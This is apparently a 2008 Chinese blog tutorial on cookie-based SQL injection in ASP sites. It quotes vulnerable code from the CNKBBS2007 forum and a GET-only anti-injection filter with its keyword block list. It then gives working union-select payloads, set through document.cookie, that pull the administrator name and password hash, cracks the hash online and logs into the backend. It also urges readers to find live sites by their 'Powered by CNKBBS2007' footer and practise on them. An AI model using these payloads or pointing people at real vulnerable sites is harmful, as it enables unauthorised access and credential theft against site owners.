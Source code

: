 ```yaml
---
title: cookies的注入方法和原理
description: 现在很多网站都采用了通用防注入程序，那么对于这种网站，我门是否就束手无策了呢？答案是否定的，因为我们可以采用cookie注入的方法，而很多通用防注入程序对这种注入方式都没有防备。在讲之前,我们还是来回顾下ASP脚本中Request对象的知识吧,上面几讲中都提到Request对象获取客户端提交数据常用的是GET和POST二种方式,同时request对象可以不通过集合来获得数据,即直接使用"request("name")"但它的效率低下,容易出错,当我们省略具体的集合名称时,ASP是按QueryString,from,cookie,servervariable,集合的顺序来搜索的,在request对象成员中集合cookies,它的意思是"读取用户系统发送的所有cookie值,我们从第二讲关于"cookies欺骗入侵和原理"中知道,cookies是保存在客户端计算机的一个文本文件,可以进行修改,这样一来,我们就可以使用Request.cookie方式来提交变量的值,从而利用系统的漏洞进行注入攻击.
date: 2008-06-01 05:21:03
category: 技术文章
tags: ['Cookies', '注入', '技术类']
post_id: 505
alias: cookies-injection-method-theory
ViewNums: 5629
---
```


现在很多网站都采用了通用防[注入](/tags/%E6%B3%A8%E5%85%A5)程序，那么对于这种网站，我门是否就束手无策了呢？答案是否定的，因为我们可以采用[cookie注入](/blog/cookie-injection-how-the)的方法，而很多通用防注入程序对这种注入方式都没有防备。

在讲之前,我们还是来回顾下[ASP](/tags/ASP)脚本中Request对象的知识吧,上面几讲中都提到Request对象获取客户端提交数据常用的是GET和POST二种方式,同时request对象可以不通过集合来获得数据,即直接使用"request("name")"但它的效率低下,容易出错,当我们省略具体的集合名称时,ASP是按QueryString,from,cookie,servervariable,集合的顺序来搜索的,在request对象成员中集合cookies,它的意思是"读取用户系统发送的所有cookie值,我们从第二讲关于"cookies欺骗入侵和原理"中知道,cookies是保存在客户端计算机的一个文本文件,可以进行修改,这样一来,我们就可以使用Request.cookie方式来提交变量的值,从而利用系统的[漏洞](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF)进行注入攻击.

我们首先还是来看看中网景论坛的最新版本"(CNKBBS2007)中网景论坛2007v5.0 "官方下载地址"http://www.cnetking.com/websys2.asp?id=26"发布时间是2007-06-06,打开系统的源代码后,在"user_RxMsg_detail.asp"文件中,有如下代码:

```
<!--＃i nclude file="opendb.asp" --> (调用opendb.asp文件)

<!--＃i nclude file="char.asp" -->

<%

Call CheckUserLogin(username)

Dim action,s,id

id=request("id") (获取客户提交的变量,并赋值给id,并没过滤,也没有指定采用那种方式提交)

if id<>"" then Call IsNum(bid) (这是程序员的出现地方,注意bid<>id)

conn.execute("update cnk_Users_RxMsg set readed=1 where id="&id) '设置已读

rs.open "select * from cnk_users_RxMsg where id="&id,conn,1,3
```

我们再打开"opendb.asp"文件

```
<%Option Explicit

Response.Buffer = true%>

<!--＃i nclude file="fzr.asp" --> (调用fzr.asp文件)

<!--＃i nclude file="cnkdata/dbname.asp" -->

<!--＃i nclude file="config.asp"-->

..................

```
以现它是连接数据库的文件,其中调用了fzr.asp文件,我们再打开fzr.asp文件

```
<%

'--------版权说明------------------

'SQL通用防注入程序

'Aseanleung

'--------定义部份------------------

Dim Fy_Post,Fy_Get,Fy_In,Fy_Inf,Fy_Xh,Fy_db,Fy_dbstr

Dim fso1,all_tree2,file1,files,filez,fs1,zruserip

If Request.QueryString<>"" Then (对Request.QueryString提交(客户采用GET方式提交)的数据进行判断,并没有指明对其它方式提交的数据进行判断)

'自定义需要过滤的字串,用 "|" 分隔

Fy_In = "'|;|%|*|and|exec|insert|select|delete|update|count|chr|mid|master|truncate|char|declare|script" (阻止了常用的SQL注入的语句)

Fy_Inf = split(Fy_In,"|")

For Each Fy_Get In Request.QueryString

For Fy_Xh=0 To Ubound(Fy_Inf)

If Instr(LCase(Request.QueryString(Fy_Get)),Fy_Inf(Fy_Xh))<>0 Then

zruserip=Request.ServerVariables("HTTP_X_FORWARDED_FOR")

If zruserip="" Then zruserip=Request.ServerVariables("REMOTE_ADDR")

Response.Write "内容含有非法字符！请不要有'或and或or等字符，请去掉这些字符再发！！<br>"

Response.Write "如是要攻击网站，系统记录了你的操作↓<br>"

Response.Write "操作ＩＰ："&zruserip&"<br>"

Response.Write "操作时间："&Now&"<br>"

Response.Write "操作页面："&Request.ServerVariables("URL")&"<br>"

Response.Write "提交方式：ＧＥＴ<br>"

Response.Write "提交参数："&Fy_Get&"<br>"

Response.Write "提交数据："&Request.QueryString(Fy_Get)

......................
```

很明显的看出它是一个SQL通用防注入程序文件,(以上的红字是对代码的解释)

代码看好了,我们来整理下思路:由于程序员的出错,导致了id没有被过滤就被带到SQL语句中查询,这是注入漏洞产生的原因,虽然程序引入了防注入程序,阻止了常用的SQL语句使用,但只对客户采用GET方式提交的数据进行判断,而没有对其它方式提交的数据进行判断,这样导致了客户可以使用Request.cookie方式来提交变量的值,而绕过了SQL防注入程序(总结下:cookie注入产生的条件:系统直接使用"request("name")"获取客户提交的数据,并对客户提交的变量没有过滤,而且在防注入程序中没有限制Request.cookie,现在防注入程序3.0只是对客户采用GET和POST提交方式进行了限制).

   原理讲好了,下面我们来学学coolie注入语句吧

```
cookies的注入语句:alert(document.cookie="id="+escape("这就是asp? id=xx后面xx代表的数值) and (这里是注入攻击代码)"));
```

这儿用到了javascript语言的知识,我把这语句的意思分解如下,以便大家理解:

1:"alert()"显示信息对话框的alert()方法,它生成的是一个独立的小窗口,称作对话框,用来显示一条信息和一个按钮.(我们在跨站中常用到)

2:"document.cookie"我们在处理cookie时,javascript将它保存为document对象的一个属性,其属性名称是cookie,利用这个属性,我们可以创建和读取cookie数据,在程序中可以使用:"alert(document.cookie)"调用当前页面的cookie数据项值.在我们启动浏览器打开页面后,如果存在相应的cookie,那么它被装入到document对象的cookie属性中,document.cookie属性采用name=value对应方式保存各个cookie数据项值.document(文档)对象表示在浏览器里显示的HTML(向页面输出数据),cookie属性是允许读写HTTP的cookie;字符串类型

4:escape()函数;它将字符串中所有的非字母字符转换为用字母数字表示的等价字符串,具有编码字符串的功能.一般情况下,cookie通常由服务器端的程序通过HTTP请求和响应头发送给浏览器,但是,利用javascript,可以在本地浏览器中设置cookie

格式:name=value的属性是指定cookie数据项的名称,value是该名称对应的值,它是一个字符串,也可是由一系列字符组成,name和value中不能包含分号,逗号及空白,(50"and 1=1")有分号,逗号及空白,所以我们要用到escape()函数对他们进行编码

   上面整句的意思大家都明白了吧,就是设置调用当前创建的cookie数据项值,在设置cookie时,它们首先保存在浏览器的内存中,退出浏览器时,才能被写入到硬盘中.(这就是在下面操作中为什么在退出后,再输入链接的地址原因)

最后我们来测试下,利用步骤:

1:打开在本地机子上架设的中网景论坛:注册一个用户,我们就会收到管理员发来的一条短信息,我们打开短信息的链接(注意这儿的参数id值)

2:把浏览器的URL清空,输入"alert(document.cookie="id="+escape("相应参数id值 and 1=1"));之后会弹出一个框框,

3:再次输入:http://127.0.0.1/cnkbbs5.2_ac/user_RxMsg_detail.asp?username=论坛管理员(返回正常的页面,说明我们绕过了SQL防注入程序了)

3:再输入:alert(document.cookie="id="+escape("1 and 1=2"));然后再输入:http://127.0.0.1/cnkbbs5.2_ac/user_RxMsg_detail.asp?username=论坛管理员(时间和内容都没有显示了,说明我们可以进行注入了)

4:通过查看系统数据库,得知cnk_users_RxMsg 表里有8个字段,Cnk_Admin表是存放管理员资料的,其中AdminName,AdminPassword字段分别对应的是账号和密码,我们使用联合查询语句,再输入:alert(document.cookie="id="+escape("1 and 1=2 union select 1,2,3,4,5,6,7,8 from Cnk_Admin"))然后把地址栏清空,输入http://127.0.0.1/cnkbbs5.2_ac/user_RxMsg_detail.asp,可经看到显示了数字4和5

5:再次把地址栏清空,输入:alert(document.cookie="id="+escape("1 and 1=2 union select 1,2,3,AdminName,AdminPassword,6,7,8 from Cnk_Admin")),提交后,清空地址栏,输入:http://127.0.0.1/cnkbbs5.2_ac/user_RxMsg_detail.asp?username=论坛管理员,这样我们就在页面上看到管理员的密码和账号了,

5:把得到的密码放入http://www.cmd5.com网站查询,得知管理员的明文密码是admin,在网站的首页我们就可进行登录后台了,我们也可利用关键字"Powered by CNKBBS2007 （5.2）"去网上找使用这系统的网站,(不过不是很多啊)大家去练习下手工的注入吧,可别搞在破坏哟!不过在使用这类注入时,它需要两次手动操作才能完成,这也是容易出错的地方,可要细心才行.

[Cookie注入是怎样产生的](/blog/cookie-injection-how-the)

cookie注入工具：

[wsi - 支持GET、POST、Cookie注入扫描和注入工具](/blog/wsi-get-post-cookie-injection-tool)

[Pangolin-你见过最好的SQL注入工具](/blog/pangolin-124584-zwell)

